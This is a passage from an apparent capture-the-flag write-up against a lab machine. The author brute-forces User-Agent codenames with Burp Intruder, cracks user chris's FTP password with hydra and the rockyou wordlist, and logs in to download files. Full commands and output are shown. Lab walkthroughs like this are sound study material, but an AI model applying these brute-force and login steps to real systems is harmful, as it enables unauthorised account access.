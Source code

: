 ```bash
J
K
L
M
N
O
P
Q
R
S
T
U
V
W
X
Y
Z
```

I then used Burp Suite's "intruder" tool to brute-force the user-agent codenames and find a `302` redirect with the codename `C` to `/agent_C_attention.php`.
![[Pasted image 20250604211700.png]]
After following the redirect, there was a message that leaked an `Agent J`, the name of `Agent C` as `Chris` and told me that his password is weak.
```bash
echo '';curl --path-as-is -s -k -X $'GET' \
    -H $'Host: 10.10.54.124' -H $'User-Agent: C' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Connection: keep-alive' -H $'Upgrade-Insecure-Requests: 1' -H $'Priority: u=0, i' -H $'Referer: http://10.10.54.124/' \
    $'http://10.10.54.124/agent_C_attention.php' | sed -E 's/<[^>]*>//g'        

Attention chris, 

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! 

From,
Agent R 
```

So I bruteforced `chris`'s FTP password with hydra.
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.54.124 -vI    

...
[21][ftp] host: 10.10.54.124   login: chris   password: crystal
...
```

Logged in with `chris:crystal` and downloaded all of the files in the directory.
```bash
ftp 10.10.54.124 21 -i

Connected to 10.10.54.124.
220 (vsFTPd 3.0.3)
Name (10.10.54.124:wither): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> mget *

local: To_agentJ.txt remote: To_agentJ.txt
```